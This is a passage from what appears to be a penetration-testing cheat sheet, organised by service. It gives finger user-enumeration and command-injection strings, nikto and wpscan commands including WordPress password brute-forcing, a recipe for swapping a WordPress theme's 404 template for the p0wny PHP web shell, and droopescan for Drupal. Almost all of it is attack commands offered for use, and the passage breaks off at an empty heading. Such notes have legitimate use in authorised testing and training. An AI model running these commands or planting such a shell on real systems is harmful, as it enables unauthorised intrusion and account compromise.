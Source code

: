 ------

## FINGER - 79

### User enumeration

```
finger @<IP>
finger <USER>@<IP>
```

### Command execution

```
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```

------

## HTTP/HTTPS - 80/443

### Automatic scanners

```
nikto -h <URL>
```

### Wordpress

```
wpscan --rua -e --url <URL>
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

#### Wordpress panel RCE

```
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```

### Drupal

```
droopescan scan -u <URL>
```

#### Username enumeration
